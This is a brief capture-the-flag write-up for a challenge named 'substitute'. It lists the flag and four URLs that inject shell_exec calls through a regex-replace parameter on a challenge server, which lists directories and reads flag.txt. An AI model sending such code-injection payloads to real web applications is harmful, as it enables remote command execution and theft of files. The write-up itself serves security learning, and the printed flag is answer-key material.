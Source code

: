 ## substitute

Flag: CTF{92b435bcd2f70aa18c38cee7749583d0adf178b2507222cf1c49ec95bd39054c}

Get the existing files (`here_we_dont_have_flag index.php`):
```
http://35.198.90.23:30447/?replace=shell_exec("ls")&vector=/Admin/e
```
Get the file type of `here_we_dont_have_flag` (`directory`):
```
http://35.198.90.23:30447/?replace=shell_exec("file here_we_dont_have_flag")&vector=/Admin/e
```
Get the files from `here_we_dont_have_flag` (`flag.txt`):
```
http://35.198.90.23:30447/?replace=shell_exec("ls here_we_dont_have_flag/")&vector=/Admin/e
```
Get the flag:
```
http://35.198.90.23:30447/?replace=shell_exec("cat here_we_dont_have_flag/flag.txt")&vector=/Admin/e
```

[Back](../unbreakable.md)
